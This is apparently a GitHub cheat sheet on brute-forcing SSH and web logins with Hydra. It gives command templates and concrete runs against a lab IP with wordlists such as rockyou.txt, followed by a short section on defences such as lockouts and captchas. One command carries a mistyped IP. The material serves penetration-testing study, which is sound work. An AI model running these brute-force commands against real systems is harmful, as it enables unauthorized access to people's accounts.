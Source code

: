 ## BruteForce ssh, web login

```sh
p: password
l: username
L: path to list of username candidates 
P: path to list of password candidates
M: path to Ip list

hydra -l <username> -p <password> <ip> <service> -o <file.txt>
hydra -l <username> -p <password> ssh://<ip>
hydra -l <username> -p <password> <ip> <service> -s <port>
hydra -l <username> -p <password> -M <host_file.txt> <service>
hydra -C <combinations.txt> <ip> <service>


hydra -l molly -p butterfly 10.10.137.76 ssh
hydra -L users.txt -p butterfly 10.10.137.76 ssh
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 1010.137.76 ssh

# hydra can generate the passwords for you. No need to generate them separately if you will be using brute force:
hydra -l user_name -V -x 4:4:aA1 ip_address ssh
#-V means verbose, -x 4:4:aA1 means min is 4 letters, max is 4 letters. List of letters is a-z denoted by a, A-Z denoted by A, 0-9 denoted by 1. You can add other characters like %_-+/
#You need to wrap apostrophes around the -x option if you add special characters like space, ^,&,* or ":
hydra -t 128 -l user_name -V -x '4:4:aA1"@#$!()=`~?><;:%^&*_-+/,.\ ' localhost ssh
```

- combinations.text

```sh
username1:password1
username2:password2
username3:password3
```

## How to Defend Against Hydra

The clear solution to help you defend against brute-force attacks is to **set strong passwords**. The stronger a password is, the harder it is to apply brute-force techniques.

We can also enforce password policies to **change passwords every few weeks**. Unfortunately, many individuals and businesses use the same passwords for years. This makes them easy targets for brute-force attacks.

Another way to prevent network-based brute-forcing is to **limit authorization attempts**. Brute-force attacks do not work if we lock accounts after a few failed login attempts. This is common in apps like Google and Facebook that lock your account if you fail a few login attempts.

Finally, tools like **re-captcha** can be a great way to prevent brute-force attacks. Automation tools like Hydra cannot solve captchas like a real human being.